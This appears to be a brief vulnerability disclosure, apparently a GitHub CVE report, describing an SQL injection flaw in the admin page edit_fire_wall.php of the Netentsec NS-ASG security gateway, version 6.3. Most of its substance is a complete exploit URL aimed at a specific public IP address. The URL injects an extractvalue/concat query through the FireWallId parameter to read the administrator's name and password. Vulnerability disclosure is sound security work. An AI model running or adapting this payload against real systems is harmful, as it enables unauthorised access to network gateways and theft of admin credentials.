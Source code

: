 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /admin/edit_fire_wall.php


https://1.85.53.53/admin/edit_fire_wall.php?FireWallId=111%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20passwd)%20from%20Admin%20limit%201)))

<img width="716" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/bc49d3a1-9958-4a04-b5d1-3ae7181c2b62">
